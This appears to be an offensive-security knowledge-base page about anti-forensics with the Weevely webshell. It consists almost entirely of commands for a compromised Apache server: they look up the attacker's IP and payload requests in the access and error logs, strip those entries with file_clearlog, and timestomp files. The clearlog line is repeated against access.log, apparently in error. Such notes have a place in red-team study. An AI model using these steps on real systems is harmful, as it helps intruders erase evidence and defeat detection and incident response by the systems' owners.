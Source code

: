 ```yaml
---
author(s):
  - Userware
tags:
  - webshell
  - interactive-shell
  - defense-evasion
  - anti-forensics
  - weevely
---
```

# Webshell

## Weevely

```
weevely> :system_info -info client_ip
<attacker_IP>
```

```
weevely> stat /var/log/apache2/access.log

weevely> stat /var/log/apache2/error.log
```

```
weevely> :file_grep /var/log/apache2/access.log "<attacker_IP>"

weevely> :file_grep /var/log/apache2/error.log "<attacker_IP>"
```

```
weevely> :file_grep /var/log/apache2/access.log "GET /payload.php"

weevely> :file_grep /var/log/apache2/error.log "GET /payload.php"
```

Modify the log by removing the attacker's IP address.

```
weevely> :file_clearlog <attacker_IP> /var/log/apache2/access.log

weevely> :file_clearlog <attacker_IP> /var/log/apache2/access.log
```

```
weevely> :file_touch
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/13 - Anti-Forensics/Cross Platform/Clear Traces/Timestomp/Webshell]]

### Weevely

- [Weevely: Clean IP address from logs](https://github.com/epinna/weevely3/wiki/Clean-IP-address-from-logs)